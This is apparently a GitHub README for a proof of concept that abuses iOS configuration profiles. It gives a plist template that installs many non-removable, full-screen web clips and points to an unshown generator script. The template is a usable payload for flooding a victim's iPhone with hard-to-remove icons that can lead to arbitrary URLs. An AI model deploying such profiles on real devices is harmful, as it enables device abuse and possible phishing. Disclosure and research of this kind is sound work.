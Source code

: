# iOS WebClip Spam PoC

## Overview

This repository demonstrates a proof-of-concept (PoC) for how iOS WebClips could potentially be exploited to place hundreds/thousands of semi-unremovable, potentially harmful web clips on a user's iPhone via a '.mobileconfig' configuration profile.

## ⚠️ Disclaimer

This PoC is for educational and research purposes only. Do not use this for any malicious activities. Always respect applicable laws and regulations.

## Proof of Concept

This PoC demonstrates how a malicious actor could create a configuration profile that installs multiple WebClips at once, potentially overwhelming the user's device.

### Configuration Profile Structure

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
    <key>PayloadContent</key>
    <array>
        <dict>
            <key>FullScreen</key>
            <true/>
            <key>IgnoreManifestScope</key>
            <true/>
            <key>IsRemovable</key>
            <false/>
            <key>Label</key>
            <string>[APP_LABEL]</string>
            <key>Icon</key>
            <data>[BASE64_ENCODED_IMAGE]</data>
            <key>Precomposed</key>
            <true/>
            <key>URL</key>
            <string>[URL]</string>
            <key>PayloadIdentifier</key>
            <string>[ID]</string>
            <key>PayloadType</key>
            <string>com.apple.webClip.managed</string>
            <key>PayloadUUID</key>
            <string>[UUID]</string>
            <key>PayloadVersion</key>
            <integer>1</integer>
        </dict>
    </array>
</dict>
</plist>
```

### Usage

1. Replace the placeholders in square brackets:
   - [APP_LABEL]: Name displayed under the WebClip icon
   - [BASE64_ENCODED_IMAGE]: Base64-encoded icon image data
   - [URL]: Website URL the WebClip opens

2. Use the 'autoCreate.py' Python script, and follow the instructions which are at the top.

## References

- [Apple Configuration Profile Reference](https://developer.apple.com/business/documentation/Configuration-Profile-Reference.pdf)
- [WebClip MDM Payload Settings](https://support.apple.com/guide/mdm/web-clips-mdm54f9b61d/web)
